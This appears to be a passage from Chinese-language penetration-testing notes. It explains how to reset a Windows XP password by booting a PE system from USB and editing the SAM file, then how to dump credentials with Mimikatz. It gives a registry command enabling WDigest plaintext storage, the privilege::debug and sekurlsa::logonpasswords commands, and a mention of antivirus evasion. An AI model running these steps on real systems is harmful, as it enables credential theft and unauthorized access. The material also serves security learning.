 > **漏洞概述**

+ PE系统，独立于硬盘系统的微型系统，通过PE系统启动可以对系统的SAM文件做修改。

> **破解漏洞相关知识**

+ 账户密码存储文件：c:\windows\system32\config\SAM 

+ U盘引导系统：开机修改启动顺序，并将U盘设置为第一启动顺序！（一般电脑是开机马上按F2键，进入BIOS，修改启动顺序，不同品牌电脑设置方法不一样）

> **漏洞利用过程**

1.下载PE制作工具（如老毛桃，大白菜，深度等），插入空U盘或光盘，一键制作PE系统到U盘 

2.为XP系统设置一个复杂密码，并关机。 

3.插入带有PE系统的U盘或光盘，开机，马上按F2/多次按f2，进入BIOS，设置启动顺序为U盘或光盘为第一位，保存 



4.重启，进入PE菜单或PE系统，使用破解密码程序进行破解。（不同的PE系统菜单不一样，但一般都有破解密码选项）



## 3.3Mimikatz

当前administrator且必须是登录状态，还得免杀技术。

注：在安装了KB2871997补丁或者系统版本大于windows server 2012时，系统的内存中就不再保存明文的密码，这样利用mimikatz就不能从内存中读出明文密码了。mimikatz的使用需要administrator用户执行，administrators中的其他用户都不行。

----

步骤一：

cmd中输入【修改注册表，意为存储明文】

```shell
reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1 /f 
```

步骤二：

运行猕猴桃mimikatz 【输入】

```shell
#提升权限 
privilege::debug 

#抓取密码 
sekurlsa::logonpasswords
```

重启或用户重新登录后可以成功抓取

---



# ###################################
